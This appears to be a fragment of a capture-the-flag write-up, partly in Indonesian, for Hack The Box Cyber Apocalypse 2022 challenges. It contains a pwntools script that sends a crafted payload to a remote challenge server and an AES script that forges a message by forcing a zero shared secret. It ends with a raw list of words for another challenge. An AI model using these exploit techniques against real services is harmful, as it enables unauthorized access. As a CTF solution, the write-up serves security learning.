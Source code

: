 ```python
#!/bin/python3

from pwn import *
from struct import pack

#elf = ELF('./sp_going_deeper')
#p = elf.process()

p = remote('178.62.83.221', 32339)

print(p.recvuntil(b'>>').decode())
p.send(b'1')
print(p.recvline().decode())

payload = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft'
payload += pack('<Q', 0x00000000000000)
print(payload)
p.sendline(payload)
print(p.recvall().decode())
```

## Android-in-the-Middle
memasukkan 0 ke M, kita bisa mendapatkan flagnya
```python
from Crypto.Cipher import AES
from Crypto.Util.number import long_to_bytes
import hashlib


def encrypt(message, shared_secret):
    key = hashlib.md5(long_to_bytes(shared_secret)).digest()
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(message)

txt = b"Initialization Sequence - Code 0"
txt = encrypt(txt, 0)

txt = txt.hex()
# make it to hex that seperated by space
txt = ' '.join(txt[i:i+2] for i in range(0, len(txt), 2))
print(txt)
```
### Tidak Berfungsi
![](CTF_Solution_Writeup/HTB_CTF/Cyber%20Apocalypse%20CTF%202022%20-%20Intergalactic%20Chase/dump/decode.py)
![](source.py)

## Omega One
list_dump.txt
```
Lendrensk
Thauv'id
ThrorqiekP
Inqodse
Tarquts6
Dutp
KrolkelA
Emoin
Dakroith|
Creiqex*
ThomoisY
```